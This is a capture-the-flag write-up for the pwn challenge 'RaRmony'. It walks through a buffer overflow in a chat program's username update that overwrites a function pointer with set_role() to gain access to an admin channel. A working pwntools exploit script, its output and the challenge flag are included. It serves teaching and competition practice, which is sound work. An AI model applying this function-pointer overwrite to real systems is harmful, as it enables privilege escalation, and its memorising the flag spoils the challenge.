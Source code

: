 ```yaml
---
grand_parent: Categories
parent: Pwn
title: RaRmony
nav_order: 1
---
```


# RaRmony 
```
Discord is full of problems; so I made my own service for discussion and flags!

I came up with 'Harmony' as a name months before DragonCTF had their challenge, and I like the name >:(
```

## Challenge

> TL;DR: Overflow to overwrite `update_username()` function ptr to `set_role()`. Then, use "Change username" functionality and read "secret-admin-chat" channel.

Running the program:
```
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> 
```

The binary comprises of 4 different functionalities:
- `Read Channel` - Allow you to specify a channel to read
- `View User Info` - Displays your current user information
- `Change role name` - Modify your role
- `Change username` - Modify your username

The "secret-admin-chat" channel contains the flag. However, if you try to read that channel (Not that simple :smile:), you will get a "Not allowed to see this channel!" message. 

A snippet of ghidra's decompiled `print_channel()`
```c
  if (*(int *)(param_1 + 8) < *(int *)(current_user + 4)) {
    puts("Not allowed to see this channel!");
  }
```

`*(current_user + 4)` is evaluated to 2 while `*(param_1 + 8)` is evaluated to 0. Since 0 is less than 2, you will get the error message.

:dart: Goal: Modify `*(current_user + 4)` to 0 or less so that you can read "secret-admin-chat" channel.

:information_source: Note: You cannot modify the value of `param_1` as the binary used `param_1` to specify the channel name.

After analysing the binary, we found a vulnerability in `update_username()`. We can overwrite the function ptr which allows us to run arbitrary function.

Ghidra's decompiled update_username()
```c
void update_username(long param_1)

{
  size_t sVar1;
  long in_FS_OFFSET;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = param_1;
  printf("Enter new username: ");
  fgets(local_38,0x28,stdin);
  sVar1 = strlen(local_38);
  local_38[sVar1 - 1] = '\0';
  strncpy((char *)(local_40 + 0x10),local_38,0x28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Knowledge gained after analysing the binary:
- From `main()`, we know that `update_username()` function is invoked using `**(current_user + 0x30)(current_user)` so `(current_user + 0x30)` contains the address of `update_username()`
- `local_40` variable in `update_username()` is `current_user`

The vulnerable line is:
```c
  strncpy((char *)(local_40 + 0x10),local_38,0x28);
``` 

Since the offset from `(current_user + 0x10)` to `(current_user + 0x30)` is less than 0x28, the above code will overwrite address of `update_username()` located at `(current_user + 0x30)`. Hence, changing "Change username" functionality. So, we can overwrite the actual function and run arbitrary function (HEHE! :sunglasses:)

Next challenge: Find a suitable function to overwrite.

We found `set_role()` function which modifies the value of `*(param_1 + 4)` to `param_2`

Ghidra's decompiled `set_role()`
```c
void set_role(long param_1,undefined4 param_2)

{
  *(undefined4 *)(param_1 + 4) = param_2;
  return;
}
```

Knowledge gained after analysing the binary:
- When the binary calls `update_username()`, the $rdi (1st arg) and the $rsi (2nd arg) contains the address of current_user and 0x0 respectively.

If we overwrite the address of `update_username()` with `set_role()` and then use "Change username" functionality, we can modify the value of `*(current_user + 4)` to 0x0 (which is our goal). Then, we can read the "secret-admin-chat" channel

Working POC:
```python
from pwn import *

binary = ELF('./harmony')
set_role = b'\x3b\x15\x40'
#r = process('./harmony')
#pause()
r = remote('193.57.159.27', 28514)
r.recvuntil(b'> ')
r.sendline(b'3')
r.recvuntil(b'username: ')
r.sendline(b'A'*32 + set_role)
r.recvline(b'> ')
r.sendline(b'3') # update current_user + 4
r.recvline(b'> ')
r.sendline(b'0')
r.recvline(b'> ')
r.sendline(b'2')

r.interactive()
```

Output of the program:
```bash
$ python3 pwn4.py
[*] '/home/kali/Downloads/rarctf/rarmony/rarmony/harmony'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.57.159.27 on port 28514: Done
[*] Switching to interactive mode
0. Read Channel
1. View User Info
2. Change role name
3. Change username
> 
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> Choose channel to view
0. general
1. pwn
2. secret-admin-chat
3. team-locator-inator
4. crypto
5. spam
6. rev
7. misc
8. web
> secret-admin-chat
Tony: In case I forget it, here's the flag for Harmony
Tony: rarctf{:O,Y0U-f0und-4-z3r0-d4y!!1!_0038abff7c}
wiwam845: no leek nerd smh
Tony: sad!
```

Flag: `rarctf{:O,Y0U-f0und-4-z3r0-d4y!!1!_0038abff7c}`